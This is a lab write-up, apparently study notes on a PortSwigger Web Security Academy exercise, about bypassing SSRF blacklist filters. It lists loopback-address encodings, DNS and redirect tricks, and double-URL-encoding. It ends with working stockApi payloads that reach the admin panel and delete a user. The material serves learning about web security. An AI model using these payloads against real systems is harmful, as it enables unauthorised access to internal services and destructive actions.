


# SSRF with blacklist-based input filters

### [Vulnerable website](https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-circumventing-defenses/ssrf/lab-ssrf-with-blacklist-filter)

## Overview

- Some applications **block** input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`

- This is example of black-listed input filters.

- Such filters can be circumvented.

    ### Circumvent black listed filters:

    1. Change the IP address formate: `127.0.0.1`
        
        - Decimal formate:
            > 2130706433

        - Octal formate:
            > 017700000001

        - Short form
            > 127.1

    2. Register your own domain name that resolves to `127.0.0.1` 
        - use `spoofed.burpcollaborator.net`

    3. Obfuscate blocked strings using URL encoding or case variation. 

    4. Provide the application with a safe URL that attacker(you) control. This safe URL then redirect to target app.
        - why?
        - app only check initial URL
        - never check redirection in side that URL 
    
    - Try using different redirect codes, as well as different protocols for the target URL.
        - `http` and `https` 

    - Try different redirect code.
        - different redirect code change behaviour
        - use codes 
            - `302` - POST become GET | body/data lost
            - `301` - POST become GET | body/data lost
            - `307` - POST is POST | bodt/data is not lost
            - `308` - POST is POST | bodt/data is not lost

## Attack vector:

- Stock check feature which fetches data from an internal system

## Analysis:

- Check with short form of `127.0.0.1` -> `127.1` 

    

- unable to access `admin panel` with URL:

    > **stockApi=http://127.1/admin** - failed  

    > **stockApi=http://127.1/%61%64%6d%69%6e** - single encoding - failed  

    > **stockApi=http://127.1/%2561%64%6d%69%6e** - double encoding - worked

- Delete user `carlos` using payload - 

    > **stockApi=http://127.1/%2561%64%6d%69%6e/delete?username=carlos**

    